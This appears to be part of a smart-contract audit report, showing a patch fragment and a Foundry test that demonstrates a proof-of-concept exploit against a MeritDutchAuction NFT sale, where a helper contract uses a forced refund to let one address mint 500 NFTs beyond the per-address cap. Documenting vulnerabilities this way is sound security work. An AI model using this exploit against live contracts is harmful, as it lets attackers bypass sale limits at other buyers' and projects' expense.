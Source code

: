 ```patch
+
+    receive() external payable {
+        _fallback();
+    }
+}
```

### exploit-test.patch

```patch
diff --git a/dutch-nft/test/MeritDutchAuction.t.sol b/dutch-nft/test/MeritDutchAuction.t.sol
index 0b40fdc..c1663e3 100644
--- a/dutch-nft/test/MeritDutchAuction.t.sol
+++ b/dutch-nft/test/MeritDutchAuction.t.sol
@@ -4,6 +4,7 @@ pragma solidity ^0.8.13;
 import "forge-std/Test.sol";
 import "../src/MeritNFT.sol";
 import "../src/MeritDutchAuction.sol";
+import "./ExploitFactory.sol";
 
 contract MeritDutchAuctionTest is Test {
     string constant NAME = "Merit NFT";
@@ -208,6 +209,34 @@ contract MeritDutchAuctionTest is Test {
         vm.stopPrank();
     }
 
+    function testMintExceedingCapPerAddress() public {
+        address exploiter = address(1111);
+        uint256 mintAmount = 500;
+        vm.startPrank(exploiter);
+        vm.warp(startTime);
+
+        ExploitFactoryClone _exploitContract = new ExploitFactoryClone(address(nft), address(auction));
+
+        // Prepare exploit fund with 1 extra wei to force auction refund
+        uint256 exploitFund = mintAmount * auction.getPrice() + 1;
+        deal(address(exploiter), exploitFund * 2);
+        (bool success,) = payable(_exploitContract).call{value: exploitFund}("");
+        assertEq(success, true);
+
+        // Execute the exploit
+        _exploitContract.exploit(mintAmount);
+        _exploitContract.cleanup();
+
+        assertEq(auction.minted(), mintAmount);
+        assertEq(nft.totalSupply(), mintAmount);
+
+        // exploiter can bypass CAP_PER_ADDRESS to mint NFTs exceeding CAP_PER_ADDRESS amount
+        assertEq(nft.balanceOf(exploiter), mintAmount);
+
+        assertEq(address(_exploitContract).balance, 0);
+        vm.stopPrank();
+    }
+
     function testClaimProceeds() public {
         vm.startPrank(wallet1);
         vm.warp(startTime);
```
